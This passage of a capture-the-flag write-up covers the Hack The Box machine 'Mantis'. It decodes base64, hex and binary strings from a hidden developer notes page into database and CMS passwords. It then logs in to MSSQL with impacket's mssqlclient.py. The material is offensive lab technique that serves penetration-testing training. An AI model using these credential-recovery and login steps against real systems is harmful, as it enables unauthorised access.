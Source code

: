 {% endhighlight %}

### 2. Getting Root
By enumeration, We found an interesiting page on port 1337.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2019-08-11/2019-08-11-11-18-40.png)

We can decode this unknown base64 encoded string with following way.
{% highlight shell %}
root@kali:~# echo 'NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx' | base64 -d
6d2424716c5f53405f504073735730726421

root@kali:~# echo 6d2424716c5f53405f504073735730726421 | xxd -ps -r
m$$ql_S@_P@ssW0rd!
{% endhighlight %}

Besides, if we scroll down the text file, there are some hidden(?) lines.
{% highlight shell %}
root@kali:~# curl http://10.10.10.52:1337/secure_notes/dev_notes_NmQyNDI0NzE2YzVmNTM0MDVmNTA0MDczNzM1NzMwNzI2NDIx.txt.txt
1. Download OrchardCMS
2. Download SQL server 2014 Express ,create user "admin",and create orcharddb database
3. Launch IIS and add new website and point to Orchard CMS folder location.
4. Launch browser and navigate to http://localhost:8080
5. Set admin password and configure sQL server connection string.
6. Add blog pages with admin user.

~~~

Credentials stored in secure format
OrchardCMS admin creadentials 010000000110010001101101001000010110111001011111010100000100000001110011011100110101011100110000011100100110010000100001
SQL Server sa credentials file namez
{% endhighlight %}

We can decode this binary with following way.
{% highlight shell %}
root@kali:~# echo 010000000110010001101101001000010110111001011111010100000100000001110011011100110101011100110000011100100110010000100001 | perl -lpe '$_=pack"B*",$_'
@dm!n_P@ssW0rd!
{% endhighlight %}

Meaning currently we have 2 credentials.
{% highlight shell %}
m$$ql_S@_P@ssW0rd! # Possible password for MSSQL
@dm!n_P@ssW0rd! # Possible password for OrchardCMS
{% endhighlight %}

Then, try to login to the SQL server.<br>
We have "mssqlclient.py" in the package <a href="https://github.com/SecureAuthCorp/impacket">Impacket</a> installed by default.
{% highlight shell %}
root@kali:~# /usr/share/doc/python-impacket/examples/mssqlclient.py -p 1433 admin@10.10.10.52
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

Password:  # m$$ql_S@_P@ssW0rd!
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: None, New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(MANTIS\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (120 7208) 
[!] Press help for extra shell commands
SQL> 
{% endhighlight %}
~~~